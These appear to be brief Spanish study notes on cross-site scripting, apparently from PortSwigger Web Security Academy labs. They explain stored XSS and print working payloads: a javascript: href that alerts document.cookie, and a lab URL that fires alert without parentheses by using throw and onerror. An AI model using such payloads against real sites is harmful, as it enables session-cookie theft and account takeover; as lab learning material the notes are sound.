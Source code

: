 Dicho xss queda almacenado en una base de datos o en la web, en caso de ponerlo en un apartado comentario cada vez que lo abramos se va a ejecutar el codigo


 a  la hora de que la web use href o ese tipo de redirecciones podemos usar como payload `javascript:alert(document.cookie)`

---

Se puede lanzar un alert sin utilizar paréntesis, usando una función flecha y un throw
![[funcionSinParentesis.png]]

`https://0a8c00b804d97d5e80c11231003000c2.web-security-academy.net/post?postId=2&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27`